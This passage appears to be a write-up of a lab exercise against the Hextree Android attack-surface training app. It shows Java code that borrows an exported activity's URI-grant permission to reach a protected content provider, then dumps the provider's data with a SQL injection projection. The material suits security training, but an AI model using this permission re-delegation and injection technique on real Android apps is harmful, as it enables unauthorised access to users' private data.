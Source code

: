 **Important Case**
Consider that the provider has `exported = false` and there's a permission needed to access it and you can find it in the manifest like this `android:grantUriPermissions="true"`. 
In this case we can't access it directly, but if we can connect to an exported activity which can access the provider and sets that permission like this

```java

intent.setData(Uri.parse("content://io.hextree.flag33_1/flags"));
intent.addFlags(1);
setResult(-1, intent);

```

`intent.addFlags(1);` is equivelent to setting `grantUriPermissions="true"`
and we see that it accepts intent from us then it creates an intent that sets the permission and parses the uri then responds with that intent to us
So we can get that intent with the permission and connect to the provider to dump it.

first by sending the intent it's waiting

```java

Intent intent = new Intent("io.hextree.FLAG33");
intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag33Activity1"));
startActivityForResult(intent, 1001);

```

Then we need to handle the received intent using `onActivityResult` like this

```java

@Override
    protected void onActivityResult(int requestCode, int resultCode, Intent data) {
        super.onActivityResult(requestCode, resultCode, data);
        Cursor cursor = getContentResolver().query(
                data.getData(),
                new String[]{" * from Note; -- "}, null,
                null, null
        );

        if (cursor!=null && cursor.moveToFirst()) {
            do {
                StringBuilder sb = new StringBuilder();
                for (int i = 0; i < cursor.getColumnCount(); i++) {
                    if (sb.length() > 0) {
                        sb.append(", ");
                    }
                    sb.append(cursor.getColumnName(i) + " = " + cursor.getString(i));
                }
                Log.d("evil", sb.toString());
            } while (cursor.moveToNext());
        }
        else {
            CharSequence text = "bad toast!";
            int duration = Toast.LENGTH_SHORT;

            Toast toast = Toast.makeText(this /* MyActivity */, text, duration);
            toast.show();
        }
        Utils.showDialog(this,data);
    }

```
